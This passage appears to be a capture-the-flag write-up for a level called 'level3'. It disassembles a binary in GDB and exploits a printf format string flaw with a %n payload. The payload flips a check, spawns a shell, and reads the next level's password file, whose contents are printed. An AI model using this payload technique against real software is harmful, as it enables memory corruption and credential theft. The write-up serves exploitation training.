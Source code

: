 # Vulnerable Code Analysis

Start by inspecting the key functions in the program using GDB:

```bash
(gdb) info functions
[...]
0x080484a4  v
0x0804851a  main
[...]
(gdb) disassemble main
Dump of assembler code for function main:
0x0804851a <+0>:     push   %ebp
0x0804851b <+1>:     mov    %esp,%ebp
0x0804851d <+3>:     and    $0xfffffff0,%esp
0x08048520 <+6>:     call   0x80484a4 <v>
0x08048525 <+11>:    leave
0x08048526 <+12>:    ret
End of assembler dump.
(gdb) disassemble v
Dump of assembler code for function v:
0x080484a4 <+0>:     push   %ebp
0x080484a5 <+1>:     mov    %esp,%ebp
0x080484a7 <+3>:     sub    $0x218,%esp
0x080484ad <+9>:     mov    0x8049860,%eax
0x080484b2 <+14>:    mov    %eax,0x8(%esp)
0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
0x080484be <+26>:    lea    -0x208(%ebp),%eax
0x080484c4 <+32>:    mov    %eax,(%esp)
0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
0x080484cc <+40>:    lea    -0x208(%ebp),%eax
0x080484d2 <+46>:    mov    %eax,(%esp)
0x080484d5 <+49>:    call   0x8048390 <printf@plt>
0x080484da <+54>:    mov    0x804988c,%eax
0x080484df <+59>:    cmp    $0x40,%eax
0x080484e2 <+62>:    jne    0x8048518 <v+116>
0x080484e4 <+64>:    mov    0x8049880,%eax
0x080484e9 <+69>:    mov    %eax,%edx
0x080484eb <+71>:    mov    $0x8048600,%eax
0x080484f0 <+76>:    mov    %edx,0xc(%esp)
0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
0x080484fc <+88>:    movl   $0x1,0x4(%esp)
0x08048504 <+96>:    mov    %eax,(%esp)
0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
0x0804850c <+104>:   movl   $0x804860d,(%esp)
0x08048513 <+111>:   call   0x80483c0 <system@plt>
0x08048518 <+116>:   leave
0x08048519 <+117>:   ret
End of assembler dump.
(gdb)
```

## Key Observations
- `main` calls `v`.
- `v` checks a variable against the value `64`.
- Potential vulnerability in `v` due to `printf` using a buffer as a format string.

# Clue for Exploration

Consider these points to guide your exploration:

- **Understanding `printf`**: How does `printf` handle user-supplied data, especially with format specifiers?
- **Input-Output Dynamics**: Experiment with different inputs and observe the changes in output to understand how the program processes data.

# Crafting the Exploit

Our aim is to manipulate a variable in `v` using the format string vulnerability in `printf`.

## Determining Stack Position

We need to locate our input string on the stack. By sending a string with format specifiers to `printf`, we can read values from the stack:

```bash
$ python -c 'print("AAAA" + "%x %x %x %x")' | ./level3
AAAA200 b7fd1ac0 b7ff37d0 41414141
```

In this output, `41414141` (hexadecimal representation of "AAAA") appears at the fourth position, indicating our input string's location on the stack.

## Executing the Exploit

Construct and execute the exploit to alter the targeted memory address:

```bash
$ (python -c 'print("\x8c\x98\x04\x08" + "0"*(64-4) + "%4$n")' && cat) | ./level3
�000000000000000000000000000000000000000000000000000000000000
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

This payload comprises:
- `\x8c\x98\x04\x08`: The memory address we want to modify.
- `"0"*(64-4)`: Fills the buffer to reach 64 bytes, accounting for the 4 bytes already occupied by the memory address.
- `%4$n`: Modifies the value at the fourth position on the stack (our target address) to 64, the total number of bytes written so far.

Executing this payload successfully manipulates the conditional check in `v`, exploiting the format string vulnerability.
